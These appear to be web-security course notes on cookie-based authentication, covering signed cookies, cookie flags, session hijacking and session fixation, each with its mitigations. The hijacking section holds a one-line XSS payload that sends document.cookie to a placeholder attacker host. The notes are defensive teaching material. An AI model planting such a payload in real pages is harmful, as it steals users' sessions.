 Authenticate the token before admin operations

- The cookie value is "signed" with the provided secret
- A tampered value will mismatch with the "signature"
- Attacker cannot generate the corresponding "signature" without secret
- (Precisely, it is message authentication code, not signature)

Authorization check before admin operations

- Only upon a successful login
- req.session.username and req.session.admin are set according to DB

For subsequent requests,

- req.session.username accessible means logged-in user
- req.session.admin accessible means a logged-in admin user

::: tip Best Practice on Session Isolation

We often separate auth cookies from other session cookies -> connection sessionId (expires = 3 mths) and auth (expires: 180s)

Authentication Cookies

- auth should be configured with tighter security
- secure (i.e., https only)
- httpOnly (i.e., no JS access)
- path (restricted to a specific folder)
- Expire more often

General Session Cookies

- Associated with less critical data
- Some can be stored in localStorage at client side

:::

## Security Issues regarding Cookie Auth.

Session Hijacking: Stealing cookies with XSS attacks

```
<img src="404" onerror="this.src='//evil.com/'+escape(document.cookie)"/>
```

Attacker presents the stolen cookies to impersonate a victim

- Mitigation 1: Reduce the risk by making cookie expire sooner
- Mitigation 2: Set the flag HttpOnly for your cookies

Session Fixation: Forcing session id designed by attackers

- Cause: A vulnerable website let its user determine session id
- Some vulnerable systems allow user input as session id
- Attacker sends a URL with a custom PHPSESSID to a victim
- Victim visits the URL and login using the particular session
- Attacker visits the same URL and hijacks the session
- Mitigation: Change the session id upon login
